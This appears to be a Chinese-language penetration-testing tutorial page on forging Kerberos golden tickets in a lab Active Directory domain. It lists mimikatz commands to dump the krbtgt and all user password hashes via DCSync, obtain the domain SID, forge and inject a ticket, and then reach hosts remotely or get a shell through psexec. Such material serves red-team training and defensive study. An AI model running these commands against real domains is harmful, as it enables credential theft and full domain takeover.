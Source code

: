 ```yaml
---
title: "5.1.2 黄金票据利用"
id: zhfly3433
---
```


### 5.1.2 黄金票据利用

#### 1、导出 krbtgt 密码 hash

```
mimikatz#lsadump::dcsync /domain:adtest.com /user:krbtgt 
```

![image](../img/d52c4a2c3ab24318f8ad382745a099ee.png)

导出所有域内用户密码 hash 值:

```
mimikatz#lsadump::dcsync /domain:adtest.com /all /csv 
```

![image](../img/977bea729ffaa2aebb7a835ef2d1673c.png)

#### 2、获取域 SID

在导出 krbtgt 的 hash 的时候已经包含了域 SID，也可以用以下命令来查看域 SID

```
whoami /all 
```

![image](../img/c5f84709587920cea1fb9f65a39399bd.png)

#### 3、伪造黄金票据

```
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4: 6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt" 
```

这里可以不指定 target 和 service

```
kerberos::golden /domain:adtest.com /sid:S-1-5-21-3418659180-3421952656-
1938706522 /rc4:6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt 
```

![image](../img/babb7a55c996631163013123f0fc3929.png)

使用 klist 查看本地缓存的票据

![image](../img/cab325d5100703c6ae80ea52fa1322dd.png)

获得票据后可直接通过 dir 远程访问主机，可以直接使用 ipc 进行连接:

![image](../img/1ce70ff399125655bc6b457ba678516e.png)

当然也可以使用 psexec 去获得一个 cmdshell:

![image](../img/a8aa83b588eef93b5ce037cae3faa33f.png)

> 注:普通黄金票据不能跨域使用;TGT 有效时间为 20 分钟;。